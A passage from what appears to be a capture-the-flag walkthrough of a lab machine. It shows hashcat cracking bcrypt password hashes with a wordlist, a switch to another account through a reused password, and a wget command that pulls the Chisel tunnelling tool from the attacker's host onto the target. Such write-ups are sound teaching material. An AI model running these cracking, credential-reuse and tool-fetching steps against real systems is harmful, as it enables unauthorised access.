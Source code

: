 At the end, both passwords are known:

    
    
    $ hashcat site-hashes /usr/share/wordlists/rockyou.txt --user -m 3200 --show
    alice:$2a$12$hkqXQw6n0CxwBxEW/0obHOb.0/Grwie/4z95W3BhoFqpQRKIAxI7.:recliner-bellyaching-bungling-continuum-gonging-laryngitis
    toby:$2a$12$AD54WZ4XBxPbNW/5gWUIKu0Hpv9UKN5RML3sDLuIqNqqimqnZYyle:greenday
    

### su

Given toby’s name is on the openmediavault-webgui account, it make sense to
check that password for that user, and it works:

    
    
    rails@derailed:~$ su - openmediavault-webgui 
    Password: 
    openmediavault-webgui@derailed:~$
    

openmediavault-webgui is not allow to SSH (because they are not in the ssh
group, as shown above):

    
    
    oxdf@hacky$ ssh openmediavault-webgui@10.10.11.190
    openmediavault-webgui@10.10.11.190's password: 
    Permission denied, please try again.
    

But that’s ok as I have a very stable SSH shell from rails.

## Shell as root

### Web GUI

#### Tunnel

Given the clear signals to look at openmediavault, I’ll want to get a look at
it. I already noted that this application is running on port 80 on localhost,
and that I can’t SSH tunnel. I’ll upload
[Chisel](https://github.com/jpillora/chisel):

    
    
    openmediavault-webgui@derailed:/dev/shm$ wget 10.10.14.6/chisel_1.8.1_linux_amd64
    --2023-07-20 13:37:31--  http://10.10.14.6/chisel_1.8.1_linux_amd64
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 8384512 (8.0M) [application/octet-stream]
    Saving to: ‘chisel_1.8.1_linux_amd64’
    
    chisel_1.8.1_linux_amd64                    100% [============================================>]   8.00M  7.51MB/s    in 1.1s
    
    2023-07-20 13:37:33 (7.51 MB/s) - ‘chisel_1.8.1_linux_amd64’ saved [8384512/8384512]
    
